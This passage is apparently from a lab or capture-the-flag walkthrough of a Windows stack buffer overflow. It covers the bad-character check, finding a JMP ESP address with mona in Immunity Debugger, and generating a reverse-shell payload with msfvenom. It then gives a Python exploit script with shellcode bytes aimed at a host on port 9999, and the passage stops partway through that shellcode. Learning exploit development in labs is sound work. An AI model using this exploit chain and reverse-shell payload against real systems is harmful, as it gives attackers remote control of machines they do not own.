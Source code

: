 If there were any bad characters, there should have been some characters missing like ,`01` could have been missing which would indicate that it's a bad character but in this case there are no bad characters

## Finding Jump Instruction 

Now we need to find the jump instruction `JMP` which is telling the stack to go jump to an address, we need to find address of this instruction so that we can make the stack jump to our instruction for calling a reverse shell

For finding the jmp instruction we can use a python script called `mona` 

https://github.com/corelan/mona

Thi script can loaded by placing it in Immunitiy debugger's `PyCommands` and can be loaded with `!mona`

<img src="https://i.imgur.com/8S8Nfp3.png"/>

For finding jmp instructions we can use this command

```
!mona jmp -r esp
```

<img src="https://i.imgur.com/F0KHj5U.png"/>

We can use any of these jmp instruction, I'll be using the first one which is `0x625011af`


## Getting a reverse shell

We have everything we need, just need to generate a 32 bit windows reverse shell payload 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=2222 -f python -b "\x00"
```

Here `-b` is for specifying which bytes we don't want in our payload to avoid including bad characters

<img src="https://i.imgur.com/6CV8TJZ.png"/>

Now just start a netcat listener and run the python script

```python
#!/usr/bin/python

import socket


host = "192.168.0.113"
port = 9999

buf =  b""
buf += b"\xd9\xed\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x52\xbb\xd1"
buf += b"\xcc\x6b\x5c\x83\xea\xfc\x31\x5a\x13\x03\x8b\xdf\x89"
buf += b"\xa9\xd7\x08\xcf\x52\x27\xc9\xb0\xdb\xc2\xf8\xf0\xb8"
buf += b"\x87\xab\xc0\xcb\xc5\x47\xaa\x9e\xfd\xdc\xde\x36\xf2"
buf += b"\x55\x54\x61\x3d\x65\xc5\x51\x5c\xe5\x14\x86\xbe\xd4"
buf += b"\xd6\xdb\xbf\x11\x0a\x11\xed\xca\x40\x84\x01\x7e\x1c"
buf += b"\x15\xaa\xcc\xb0\x1d\x4f\x84\xb3\x0c\xde\x9e\xed\x8e"
buf += b"\xe1\x73\x86\x86\xf9\x90\xa3\x51\x72\x62\x5f\x60\x52"
buf += b"\xba\xa0\xcf\x9b\x72\x53\x11\xdc\xb5\x8c\x64\x14\xc6"
buf += b"\x31\x7f\xe3\xb4\xed\x0a\xf7\x1f\x65\xac\xd3\x9e\xaa"
buf += b"\x2b\x90\xad\x07\x3f\xfe\xb1\x96\xec\x75\xcd\x13\x13"
buf += b"\x59\x47\x67\x30\x7d\x03\x33\x59\x24\xe9\x92\x66\x36"
buf += b"\x52\x4a\xc3\x3d\x7f\x9f\x7e\x1c\xe8\x6c\xb3\x9e\xe8"
buf += b"\xfa\xc4\xed\xda\xa5\x7e\x79\x57\x2d\x59\x7e\x98\x04"
```